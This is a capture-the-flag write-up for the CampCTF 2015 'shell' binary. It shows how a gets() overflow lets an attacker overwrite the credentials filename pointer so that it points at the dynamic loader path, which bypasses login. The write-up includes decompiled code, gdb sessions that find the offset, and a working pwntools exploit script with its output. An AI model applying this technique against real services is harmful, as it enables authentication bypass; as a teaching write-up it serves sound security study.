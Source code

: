 # Overwrite File Pointer


This technique can be used to redirect the workflow of a binary by overwriting the file pointer which is being used. To elaborate on this more, we are going to take `shell` from CampCTF 2015.

### Reverse Engineering

Firstly, let's run the program in `ltrace` to see what is going on:-

```r
d4mianwayne@oracle:~/Pwning/unknown$ ./shell 
$ help
sh whoami date exit ls help hlep login
$ whoami
d4mianwayne
$ ls
creds.txt  shell 
$ cat creds.txt
Command not found
$ sh
Permission denied
$ login 
Command not found
$ login
Username: hello
Password: world
Authentication failed!
$ ^C
```

So, now we know that there is an authentication system, `ls`, `sh` which gives `permission denied` error, seems like we can't use unless we are authorized and we can't use the `cat`. Let's check the main:-

```C
  v22 = 0;
  v21 = argc;
  v20 = argv;
  filename = "creds.txt";
  v15 = 0;

  -- snip --

  
    printf("Username: ", "login");
    gets(&v16);
    printf("Password: ");
    HIDWORD(v6) = gets(&v17);
    stream = fopen(filename, "r");
    for ( lineptr = 0LL; ; lineptr = 0LL )
    {
      n = 0LL;
      v11 = getline(&lineptr, &n, stream);
      if ( v11 < 0 )
      {
        free(lineptr);
        goto LABEL_12;
      }
      lineptr[v11 - 1] = 0;
      s2 = strtok(lineptr, ":");
      v8 = strtok(0LL, ":");
      if ( s2 )
      {
        if ( v8 && !strcmp((const char *)&v16, s2) && !strcmp((const char *)&v17, v8) )
          break;
      }
      free(lineptr);
    }
    v3 = puts("Authenticated!");
    v14 = 35;
    v15 = 1;
    LODWORD(v6) = v3;
```

There is a `gets`, which means we have a buffer overflow here and after that we have a `stream` variable which seems to contain the `IO` buffer of a `filename` which is `creds.txt` and after that there seems to a delimiter:` which seems to be splitting the credentials in 2 parts, first one being `username` and second one being `password`. 


Now, since we can use the `gets` to overwrite the `filename` pointer to any other file which contains a delimiter `:` then we can get authenticated. Let's check if we can use any library which satisfy our conditions.

```r
gdb-peda$ searchmem /lib64/ld-linux-x86-64.so.2
Searching for '/lib64/ld-linux-x86-64.so.2' in: None ranges
Found 2 results, display max 2 items:
shell : 0x400200 ("/lib64/ld-linux-x86-64.so.2")
 libc : 0x7ffff7ba1d50 ("/lib64/ld-linux-x86-64.so.2")
gdb-peda$ searchmem libc.so.6
Searching for 'libc.so.6' in: None ranges
Found 6 results, display max 6 items:
     shell : 0x400431 ("libc.so.6")
      libc : 0x7ffff79fb76f ("libc.so.6")
ld-2.27.so : 0x7ffff7df8790 ("libc.so.6")
    mapped : 0x7ffff7fd7490 ("libc.so.6")
    mapped : 0x7ffff7fd74b6 ("libc.so.6")
    mapped : 0x7ffff7ffede6 ("libc.so.6")
gdb-peda$ x/s 0x400431
0x400431:	"libc.so.6"
gdb-peda$ 
```

Ahah, we have the dynamically loaded libraries address, we can use either of them. In this case, we need an absolute path for a file, we don't have one for `libc.so.6`, so we will use `/lib64/ld-linux-x86-64.so.2` stored at `0x400200` as it has the absolute address. 


Checking for `:` delimiter:-

```r
d4mianwayne@oracle:~/Pwning/unknown$ strings -a /lib64/ld-linux-x86-64.so.2 | grep ":" 
|F:m
:v1<:w
:vIH
<$:u
:/lib
t:f.


AT_??? (0x%s): 0x%s
%s: %s: %s%s%s%s%s
%s: error: %s: %s (%s)
conflict processing: %s
ERROR: ld.so: object '%s' from %s cannot be preloaded (%s): ignored.
runtime linker statistics:


-- snip --


```

There were lots of it, but we will use any from it.

### Finding Offset for File Pointer

As binary is not stripped, we can use `gdb` and then do `disas main` and set up a breakpoint at `fopen` and check the `rdi` register since that would be the register which contains file pointer of `creds.txt`.

Now, off to `gdb`:-

```r
-- snip --

   0x0000000000400c7b <+251>:	mov    al,0x0
   0x0000000000400c7d <+253>:	call   0x400790 <gets@plt>
   0x0000000000400c82 <+258>:	movabs rsi,0x400f9f
   0x0000000000400c8c <+268>:	mov    rdi,QWORD PTR [rbp-0x18]
   0x0000000000400c90 <+272>:	mov    DWORD PTR [rbp-0xdc],eax
   0x0000000000400c96 <+278>:	call   0x4007b0 <fopen@plt>
   0x0000000000400c9b <+283>:	mov    QWORD PTR [rbp-0x90],rax
   0x0000000000400ca2 <+290>:	mov    QWORD PTR [rbp-0x98],0x0
   0x0000000000400cad <+301>:	lea    rdi,[rbp-0x98]
   0x0000000000400cb4 <+308>:	lea    rsi,[rbp-0xa8]

-- snip -- 
```

Let' set up a breakpoint at `0x0000000000400c96`, now we will do `pattern create` to create a pattern and trigger the vulnerability in `login`.

```r
gef➤  b *0x0000000000400c96
Breakpoint 1 at 0x400c96
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
[+] Saved as '$_gef0'
gef➤  
gef➤  r
Starting program: /home/d4mianwayne/Pwning/unknown/shell 
$ login
Username: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
Password: login
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffdd94  →  0x6161006e69676f6c ("login"?)
$rbx   : 0x0               
$rcx   : 0x00007ffff7dcfa00  →  0x00000000fbad2288


-- snip --

───────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
fopen@plt (
   $rdi = 0x6161616e61616161,
   $rsi = 0x0000000000400f9f → 0x68747541003a0072 ("r"?),
   $rdx = 0x00007ffff7dd18d0 → 0x0000000000000000,
   $rcx = 0x00007ffff7dcfa00 → 0x00000000fbad2288
)
───────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "shell", stopped 0x400c96 in main (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400c96 → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x0000000000400c96 in main ()
gef➤  x/s $rdi
0x6161616e61616161:	<error: Cannot access memory at address 0x6161616e61616161>
gef➤  pattern search 0x6161616e61616161
[+] Searching '0x6161616e61616161'
[+] Found at offset 100 (little-endian search) likely
[+] Found at offset 101 (big-endian search) 
gef➤  


```

So, the offset to the file pointer is 100. Now, we can redirect the flow with our payload being:-


```t
-----------------------------------------------------
| "A"*100                   |   0x400200            |
-----------------------------------------------------
```

Now, time to write an exploit:-



### Pwning Time

Let's make a script:-

```python
from pwn import *

p = process("./shell")
payload = b"A"*100
payload += p64(0x400200) # Address of `/lib64/ld-linux-x86-64.so.2`

p.sendlineafter(b"$ ", b"login") # Vulnerable Function

p.sendlineafter(b": ", payload) # `gets` used
p.sendlineafter(b": ", b"") # Fake entry
p.sendlineafter(b"$ ", b"login") # Calling `login`
p.sendlineafter(b": ", b"calling init") # Sending `username`
p.sendlineafter(b": ", b" %s") # Sending `password`
p.interactive()

```
Now, we can run the exploit:-

```r
d4mianwayne@oracle:~/Pwning/unknown$ python3 shell.py 
[+] Starting local process './shell': pid 8021
[*] Paused (press any to continue)
[*] Switching to interactive mode
Authenticated!
# $ cat flag.txt
Command not found
# $ sh
$ cat flag.txt
PwnLand{FilePointer_Overwrite}
$ 
[*] Interrupted
```


Done!